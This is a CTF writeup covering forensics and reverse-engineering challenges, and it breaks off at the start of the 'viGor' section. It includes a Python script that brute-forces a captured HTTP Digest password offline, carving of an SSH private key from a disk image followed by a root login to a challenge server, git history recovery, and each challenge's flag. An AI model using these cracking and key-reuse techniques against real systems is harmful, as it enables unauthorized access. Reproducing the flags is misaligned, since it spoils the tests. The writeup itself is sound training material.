author: Azaki
published: published
created: 2026-04-18
description: Top 32
tags: CTF, Forensics, Reverse, Crypto, Web, Pwn, OSINT, Writeup





# Forensics

## L0v3 PDF (Level 1)

*Problem Statement:* A friend sent over a PDF file, but reading the text reveals only nonsensical sentences. Where is the actual hidden message?

---

Running the `strings` command on the raw PDF file inspects uncompressed object streams, immediately uncovering the plaintext flag



> Flag: CPCTF{Lets_P1ey_W1th_PdFs}

---

## Flag in Flags (Level 2)

*Problem Statement:* If you want to hide a tree, do it in the forest. Where would you hide a flag?

---

Opening the image in StegSolve to analyze individual bit planes reveals the hidden flag clearly on **Red plane 1**



> Flag: CPCTF{FLAG_MANY_FLAGS_FLAG}

---

## Secret Recipe

*Problem Statement:* Sniffing public Wi-Fi traffic caught someone browsing a website with a secret omelette recipe.
- If `(`, `)`, or `l` appears, transcribe it as `1`.
- Hyphens (`-`) are excluded from the flag.

---

Inspecting the packet capture in Wireshark and filtering for HTTP traffic (`http`) exposes an exported JPEG image (`recipe.jpg`). Extracting and viewing the image, then applying the specified character substitutions recovers the flag



> Flag: CPCTF{5()j_sov(7}

---

## credentials (Level 3)

*Problem Statement:* An accidental commit included a flag! But the author wiped it completely from git history using:

```bash
git filter-branch --index-filter "git rm -rf --cached --ignore-unmatch flag.txt" --prune-empty -- --all
```

---

Inspecting the repository history reveals four commits, including one where `flag.txt` was purged:

```bash
git log --all --oneline --graph
```



While `git filter-branch` updates active heads, Git preserves original references under `.git/refs/original/`. Locating the original pre-filter refs:

```bash
find .git/refs -type f -maxdepth 4 -print -exec cat {} \;
```



The original commit hash is `1b9465c`. Listing files within that tree reveals the deleted `flag.txt`:

```bash
git ls-tree -r --name-only 1b9465c
```



Viewing `flag.txt` directly from commit `1b9465c`:

```bash
git show 1b9465c:flag.txt
```



> Flag: CPCTF{n3ver_c0mmit_y0ur_cr3dential5}

---

## digest (Level 3)

*Problem Statement:* The password is 8 digits long, and the server enforces rate limiting to thwart brute-force attempts. Can you break the HTTP Digest Authentication capture?

---

Inspecting the HTTP Digest challenge in Wireshark yields the following parameters:

```text
username = cpctf
realm    = Restricted
nonce    = +pHR2klPBgA=dea9c5d3f34f861b03f0be19a41069cf29603de5
uri      = /
qop      = auth
nc       = 00000001
cnonce   = 1afdf6a5de6ae0bc
response = b71427f528886528c5144cd259a83d97
method   = GET
```



Because the hash algorithm is MD5 and the password search space is constrained to strictly 8-digit integers (`00000000` to `99999999` — $10^8$ combinations), we can execute an offline brute-force attack in Python without triggering remote rate limits:

```python
import hashlib

username = "cpctf"
realm = "Restricted"
nonce = "+pHR2klPBgA=dea9c5d3f34f861b03f0be19a41069cf29603de5"
uri = "/"
qop = "auth"
nc = "00000001"
cnonce = "1afdf6a5de6ae0bc"
response = "b71427f528886528c5144cd259a83d97"
method = "GET"

def md5hex(s: str) -> str:
    return hashlib.md5(s.encode()).hexdigest()

ha2 = md5hex(f"{method}:{uri}")
print("HA2 =", ha2)

for i in range(100000000):
    password = f"{i:08d}"
    ha1 = md5hex(f"{username}:{realm}:{password}")
    calc = md5hex(f"{ha1}:{nonce}:{nc}:{cnonce}:{qop}:{ha2}")
    if calc == response:
        print("password =", password)
        print("HA1 =", ha1)
        break
```

Running the script recovers the plaintext numeric password



Authenticating with the recovered credentials via browser or `curl` retrieves the flag




> Flag: CPCTF{d1g3st_4uth_15_4_ch4ll3ng3}

---

## Authorized Whale (Level 5)

*Problem Statement:* A managed server suffered an insider attack right after permissions were modified. Examine the post-attack raw disk image to determine what happened.

---

Analyzing the disk image with forensic utilities reveals suspicious commands executed over SSH targeting `/root/flag.txt`



Checking `authorized_keys` exposes the attacker's public key



The private key file was unlinked from the file system, scattering remnants across unallocated space



Extracting strings from the disk image and filtering for Ed25519 patterns:

```bash
strings -a challenge.raw > all_strings.txt
grep 'ssh-ed25519' all_strings.txt
grep 'authorized_keys' all_strings.txt
grep 'flag{' all_strings.txt
grep 'cpctf{' all_strings.txt
grep 'AAAAC3NzaC1lZDI1NTE5AAAAIFKZop8lFBVr7WU34SAutXs9gESNMbNzPa9KKcnCmAtW' all_strings.txt
```

Locating the flag path at `/root/flag.txt`



Examining the carved data blocks reveals that the public and private key payloads were stored with reversed byte sequences. We parse, reverse, and Base64-decode the private key bytes:

```python
import re
import base64

with open("all_strings.txt", "r", encoding="utf-8", errors="ignore") as f:
    data = f.read()

target = "AAAAC3NzaC1lZDI1NTE5AAAAIFKZop8lFBVr7WU34SAutXs9gESNMbNzPa9KKcnCmAtW"

m = re.search(rf'PUB_PAYLOAD= ([^"]*{re.escape(target[::-1])}[^"]*?)","PRIV_PAYLOAD=([^"]+)"', data)
if not m:
    raise SystemExit("No matching record found")

priv_payload = m.group(2)
priv_key = base64.b64decode(priv_payload[::-1] + "===")

with open("id_ed25519", "wb") as f:
    f.write(priv_key)

print("[+] Successfully reconstructed id_ed25519")
```

Setting `chmod 600 id_ed25519`, authenticating to the remote server over SSH on port 32222, and retrieving the flag:

```bash
chmod 600 id_ed25519
ssh -i ./id_ed25519 -p 32222 root@133.88.122.244
```



> Flag: CPCTF{9r0t3ct_y0ur_d0ck3r_s0ck3t_str1ctLy}

---

# Reverse Engineering

## Hidden (Level 1)

*Problem Statement:* Find the hidden flag!

---

While decompiling the binary in IDA Pro reveals deliberately obfuscated functions and unreachable branches



The flag is actually embedded as a plain ASCII literal in the binary's data section. Running `strings` extracts it immediately



> Flag: CPCTF{H1dd3n_1n_5tr1ngs}

---

## Omikuji (Level 2)

*Problem Statement:* Test your fortune — if you're lucky, you might receive a flag!

---

Inspecting the binary reveals an unstripped symbol table



Decompiling `main` shows the program constructing an empty `std::string` and iteratively appending characters one by one via `std::string::operator+=`. Reassembling the characters sequentially reveals the flag



> Flag: CPCTF{D3r_4173_wurf317_n1ch7}

---

## Out Of World (Level 3)

*Problem Statement:* Nothing seems to happen when running the program...

---

Running `strings` against the binary reveals references to an environment variable named `CTF_SECRET_KEY`



Running the binary without arguments simply prints "See You" and terminates



Decompiling the binary in IDA Pro:
- `check(key)` verifies the candidate key.
- `print_flag(key)` uses the valid key to decrypt and display the flag



The `check` function enforces a strict 24-character length on `CTF_SECRET_KEY`



Reversing the byte-wise XOR operations inside `check` derives the correct key



Exporting `CTF_SECRET_KEY` and executing the binary prints the flag



> Flag: CPCTF{c4n_y0u_f1nd_3nv1r0nm3n7_v4r1abl35}

---

## viGor (Level 4)

*Problem Statement:* Let's stay energetic and solve this!

---

Executing the Go-compiled binary

